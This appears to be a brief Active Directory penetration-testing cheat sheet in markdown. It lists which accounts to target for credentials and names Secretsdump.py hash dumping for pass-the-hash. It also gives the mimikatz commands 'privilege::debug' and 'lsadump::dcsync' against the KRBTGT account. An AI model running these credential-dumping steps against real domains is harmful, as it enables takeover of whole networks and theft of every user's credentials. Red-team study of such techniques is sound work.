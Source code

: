 # Credentials to look for:

### 1) Local admin rights on several machines

### 2) Service accounts that have delegate permissions

### 3) Accounts used for privileged AD Services (SCCM,WSUS,Exchange,etc.)

### Secretsdump.py on an account that is synced with the domain controller to dump hashes to PtH attack.

### Privileges: Replicate Directory Changes, Replicate Directory Changes All

### Usually, Administrators, Domain Admins and Enterprise Admins have this privilege in their accounts.

#### 1) mimikatz.exe

#### 2) privilege::debug

#### 3) lsadump::dcsync /user:KRBTGT_ACCOUNT
